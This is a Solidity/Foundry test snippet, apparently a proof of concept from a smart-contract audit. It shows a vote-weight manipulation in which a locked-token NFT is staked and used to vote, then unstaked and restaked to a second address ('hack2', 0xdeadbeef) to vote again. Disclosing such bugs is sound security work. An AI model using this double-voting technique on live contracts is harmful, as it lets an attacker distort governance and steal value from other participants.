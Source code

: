 ```
        poolVoter.registerGauge(address(1), address(11111));


        poolVoter.registerGauge(address(3), address(22222));

        address[] memory pools = new address[](3);
        uint256[] memory weights = new uint256[](3);
        pools[0] = address(1);
        pools[1] = address(3);
        weights[0] = 5;
        weights[1] = 5;
        poolVoter.vote(pools, weights);
        vm.stopPrank();
        address[] memory p= poolVoter.pools();
        console.log('Before:');
        
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }

        deal(address(zero), address(this), 1 ether);
        zero.approve(address(lockerToken), 1 ether);
        uint256 nftid = lockerToken.createLock(1 ether, 365 * 86400, false);
        lockerToken.safeTransferFrom(address(this), address(stake), nftid, abi.encode(address(this)));

        address[] memory pools2 = new address[](3);
        uint256[] memory weights2 = new uint256[](3);
        pools2[0] = p[0];
        weights2[0] = 5;
        console.log('After attack vote:');
        poolVoter.vote(pools2, weights2);
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }
        stake.unstakeToken(nftid);
        console.log('Transfer nft to hack2(0xdeadbeef)');
        lockerToken.safeTransferFrom(address(this), address(stake), nftid, abi.encode(address(0xdeadbeef)));

        vm.startPrank(address(0xdeadbeef));
        poolVoter.vote(pools2, weights2);
        for (uint i = 0; i < 3; i++) {
            console.log('Pool', i);
            console.log(poolVoter.weights(p[i]));            
        }
    }

    function onERC721Received(
        address,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        return this.onERC721Received.selector; 
    }
}
```